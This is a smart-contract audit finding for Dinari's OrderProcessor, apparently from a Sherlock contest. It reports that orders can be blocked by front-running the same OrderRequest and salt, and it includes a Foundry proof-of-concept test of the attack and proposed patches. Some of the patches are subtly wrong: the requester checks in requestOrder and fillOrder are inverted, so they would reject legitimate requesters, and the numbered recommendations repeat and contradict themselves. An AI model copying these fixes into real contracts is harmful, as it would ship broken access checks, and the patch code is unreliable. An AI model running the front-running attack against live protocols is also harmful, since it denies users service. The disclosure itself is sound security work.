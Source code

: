 # A malicious user can block any order request by frontrunning it. Front-run victim's tx will revert.

## Summary
By frontrunning `requestOrder` with same `OrderRequest` and `salt`, victim's tx will revert.

## Vulnerability Details

Imagine a Dinari's competitor sponsored bot that is watching for `requestOrder` tx, frontrunning it  with same `OrderRequest` and `salt` and backrunning with `requestCancel` tx.

Then victim's `requestOrder` get failed as same `orderId` already exists.

Root cause of this problem is combination of 
1) `OrderRequest` does not have `requester` field
2) `requester` is not taken into consideration when calculating `orderId`.
3) `requester` is not checked during `requestOrder`,`requestCancel`,`fillOrder`,`cancelOrder` 

```solidity
function getOrderIdFromOrderRequest(OrderRequest memory orderRequest, bytes32 salt) public pure returns (bytes32) {
        //@audit - missing requester
        return keccak256(
            abi.encode(
                ORDERREQUEST_TYPE_HASH,
                salt,
                orderRequest.recipient,
                orderRequest.assetToken,
                orderRequest.paymentToken,
                orderRequest.quantityIn
            )
        );
    }
```

## Proof of Concept 
```solidity
 function testFrontrunningRequestOrder() public {
        address malicious = address(0x6);
        address victim = user;

        paymentToken.mint(malicious, dummyOrder.quantityIn);
        paymentToken.mint(victim, dummyOrder.quantityIn);

        // 1. Frontrunning malicious's requestOrder - success
        vm.startPrank(malicious);
        paymentToken.increaseAllowance(address(issuer), dummyOrder.quantityIn);
        issuer.requestOrder(dummyOrder, salt);

        // 2. Victim's requestOrder - failed
        vm.startPrank(victim);
        paymentToken.increaseAllowance(address(issuer), dummyOrder.quantityIn);
        vm.expectRevert(OrderProcessor.DuplicateOrder.selector);
        issuer.requestOrder(dummyOrder, salt);

        // 3. Then request cancel
        vm.startPrank(malicious);
        issuer.requestCancel(dummyOrder, salt);
    }
```

## Impact
As innocent Dinari's users cannot request Buy/Sell order, thus complete shutdown of Dinari issuers.

## Code Snippet
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L46C1-L58C6
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L205C1-L216C6
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L250C1-L252C74

## Tool used

Manual Review

## Recommendation
1) `OrderRequest` should have `requester` field
2) `requester` is not taken into consideration when calculating `orderId`.
2) `OrderRequest.requester` should be checked during `requestOrder`,`requestCancel`,`fillOrder`,`cancelOrder`

```solidity
    struct OrderRequest {
+       // Account that requested the order
+       address requester;
        // Recipient of order fills
        address recipient;
        // Bridged asset token
        address assetToken;
        ...
    }
```
```solidity
function getOrderIdFromOrderRequest(OrderRequest memory orderRequest, bytes32 salt) public pure returns (bytes32) {
        //@audit - missing chainid() to generate order id - order id generated for testnet can be replayed for mainnet.
        return keccak256(
            abi.encode(
                ORDERREQUEST_TYPE_HASH,
                salt,
+               orderRequest.requester,
                orderRequest.recipient,
                orderRequest.assetToken,
                orderRequest.paymentToken,
                orderRequest.quantityIn
            )
        );
    }
```

```solidity
function requestOrder(OrderRequest calldata orderRequest, bytes32 salt) public nonReentrant whenOrdersNotPaused {
        // Reject spam orders
        if (orderRequest.quantityIn == 0) revert ZeroValue();
+        if (orderRequest.requester == msg.sender) revert NotRequester();

        // Check for whitelisted tokens
        _checkRole(ASSETTOKEN_ROLE, orderRequest.assetToken);
        _checkRole(PAYMENTTOKEN_ROLE, orderRequest.paymentToken);
        bytes32 orderId = getOrderIdFromOrderRequest(orderRequest, salt);
        // Order must not already exist
        if (_orders[orderId].remainingOrder > 0) revert DuplicateOrder();
        ...
    }
```

```solidity
function requestCancel(OrderRequest calldata orderRequest, bytes32 salt) external {
        bytes32 orderId = getOrderIdFromOrderRequest(orderRequest, salt);
        address requester = _orders[orderId].requester;
        // Order must exist
+        if (requester != orderRequest.requester) revert NotRequester();
        if (requester == address(0)) revert OrderNotFound();
        // Only requester can request cancellation
        if (requester != msg.sender) revert NotRequester();

        // Send cancel request to bridge
        emit CancelRequested(orderId, orderRequest.recipient);
    }
```

```solidity
    function fillOrder(OrderRequest calldata orderRequest, bytes32 salt, uint256 fillAmount, uint256 receivedAmount)
        external
        nonReentrant
        onlyRole(OPERATOR_ROLE)
    {
        // No nonsense
        if (fillAmount == 0) revert ZeroValue();
        bytes32 orderId = getOrderIdFromOrderRequest(orderRequest, salt);
        OrderState memory orderState = _orders[orderId];
        // Order must exist
+        if (orderState.requester == orderRequest.requester) revert NotRequester();        
        if (orderState.requester == address(0)) revert OrderNotFound();
```

```solidity
    function cancelOrder(OrderRequest calldata orderRequest, bytes32 salt, string calldata reason)
        external
        nonReentrant
        onlyRole(OPERATOR_ROLE)
    {
        bytes32 orderId = getOrderIdFromOrderRequest(orderRequest, salt);
        OrderState memory orderState = _orders[orderId];
        // Order must exist
        if (orderState.requester == address(0)) revert OrderNotFound();
+        if (orderState.requester != orderRequest.requester) revert NotRequester();
```